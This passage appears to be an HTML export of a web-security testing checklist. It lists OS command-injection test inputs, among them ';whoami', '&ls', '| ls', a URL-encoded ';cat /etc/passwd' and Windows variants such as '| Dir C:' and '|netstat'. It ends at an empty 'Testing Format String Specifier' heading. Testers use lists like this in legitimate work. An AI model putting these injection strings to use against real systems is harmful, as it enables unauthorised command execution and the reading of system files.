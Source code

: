 		</p>
		<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>;whoami</i></font></p>
		<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>&amp;ls</i></font></p>
		<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>|
		ls</i></font></p>
		<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>%3Bcat%20/etc/passwd
		–[URL Encoded ;cat /etc/passwd]-</i></font></p>
		<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>|
		Dir C: --- windows.</i></font></p>
		<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>|netstat
		–- windows.</i></font></p>
	</ul>
</ul>
<p class="western" align="left"><br/>
<br/>

</p>
<p class="western" align="left"><br/>
<br/>

</p>
<p class="western" align="left"><br/>
<br/>

</p>
<p class="western" align="left"><br/>
<br/>

</p>
<p class="western" align="left"><br/>
<br/>

</p>
<p class="western" align="left"><br/>
<br/>

</p>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>Testing
Format String Specifier:</i></font></p>
<p class="western" align="left"><br/>
<br/>
